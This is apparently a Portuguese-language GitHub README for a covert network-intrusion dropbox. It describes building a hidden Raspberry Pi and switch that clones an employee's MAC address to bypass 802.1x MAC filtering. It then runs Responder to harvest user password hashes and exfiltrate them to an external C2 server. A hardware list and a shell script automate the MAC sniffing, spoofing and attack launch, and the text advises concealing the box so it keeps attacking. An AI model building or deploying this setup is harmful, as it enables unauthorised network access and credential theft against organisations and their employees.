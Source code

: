 # Projeto

O Objetivo desse projeto visa realizar de forma "automatizada" e "stealth" o bypass da camada de proteção 802.1x PNAC (Filtro de MAC) e iniciar quaisquer scripts/exploits/ferramentas ao ingressar dentro da rede alvo utilizando ferramentas como RaspberryPI3 e um Switch, ambos de fácil acesso para compra.

No cenário proposto, um atacante utilizará a ferramenta + scripts contruidos para realizar o ataque, ao obter acesso local aos cabos de rede referente a rede alvo, basta plugar um computador de um colaborador para clonar seu MAC, e depois o mesmo ingresará na rede, assim rodando as automações, em sequência é recomendável que a caixa seja escondida equanto conectada ao cabo de rede, para que permaneça na rede realizando os ataques.

Para o caso atual, a ferramenta a ser ativada sera o "Responder", o qual terá função de coletar Hashes de usuários na rede e exfiltra-los para um servidor externo (C2).

# Equipamentos

* Raspberry PI (recomendável PI3 1GB RAM)
* 1 Cabo microUSB/USB-C (Depende do RaspberryPI)
* Tela Touch RaspberryPI (Recomendável/Não Obrigatório)
* Switch de rede
* Conversor de energia do Switch para USB
* 2 Cabos de Rede RJ45 (Pequenos)
* 1 PowerBank (Pequeno)
* Teclado Bluethooth (Recomendável/Não Obrigatório)
* Conversor LAN - USB
* Fita Dupla-Face + Caixa (20cm x 15cm +-)






start_resp.sh

# Reset MAC Address Random
#sudo ifconfig eth1 hw ether $(ethtool -P eth1 | awk '{print $3}') 1>&-

while true;do
echo "[+] Capturando MAC Address, aguarde 10 segundos..."

echo "" > /tmp/captured_mac.txt

sudo tshark -i eth1 -Y "_ws.col.protocol matches \"IGMPv3\"" -T fields -e eth.src -a duration:10 2>&- | sort -u > /tmp/captured_mac.txt
echo "64:1c:67:e6:d8:a0" > /tmp/captured_mac.txt
# Caminho do arquivo de onde ler o valor
arquivo="/tmp/captured_mac.txt"
valor=$(cat "$arquivo" | tr -d '[:space:]')
# Executa o comando macchanger com o valor lido do arquivo
sudo macchanger -m "$valor" eth1 2>&- # Substitua "eth1" pela interface de rede desejada

cd /usr/share/responder
sudo python3 automation.py
done



resp-onder.sh
cd /usr/share/responder
sudo python3 /usr/share/responder/automation.py

